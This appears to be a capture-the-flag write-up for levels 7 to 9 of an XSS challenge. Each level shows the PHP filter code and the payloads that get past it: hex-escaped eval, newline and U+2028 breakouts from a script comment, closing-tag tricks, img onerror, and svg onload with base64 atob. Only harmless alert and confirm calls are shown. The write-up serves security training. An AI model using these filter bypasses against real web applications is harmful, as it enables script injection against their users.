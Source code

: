 ## Level 7
```bash
// No Unicode escaping.. there are a lot of smart guys out of there...
// Thanks to stackoverflow.com > http://bit.ly/SO_decode_unicode
$search = preg_replace_callback('/\\\\u([0-9a-fA-F]{4})/', function ($m) {
return mb_convert_encoding(pack('H*', $m[1]), 'UTF-8', 'UCS-2BE');
}, $search);
   
//No alert no party!  
$search = preg_replace('#alert#is', NOALERT, $search);
```
No alert (with eval and hex):
```bash
<script>eval('\x61lert(\'l33t\')')</script>
```
## Level 8
```bash
//No alert no party!  
$search = preg_replace('#alert#is', NOALERT, $search);

return <<<RESULT
  No products here.. 
  <!-- todo: debug this -->
  <script>
    //console.debug( $search );
  </script>
RESULT;
```
New line insertion (to break free inside a function):
```bash
[NL]eval('\x61lert(\'l33t\')'
```
Alternatives:
```bash
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```
## Level 9
```bash
// Breaking bad... more stronger
$search = preg_replace('#[\n\r]#', "", $search);
   
//No alert no party!  
$search = preg_replace('#alert#is', NOALERT, $search);

return <<<RESULT
  No products here.. 
  <!-- todo: debug this -->
  <script>
    //console.debug( $search );
  </script>
RESULT;
```
New line insertion, with new line as unicode:
```bash
[\u2028]eval('\x61lert(\'l33t\')'
```
Alternatives:
```bash
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
```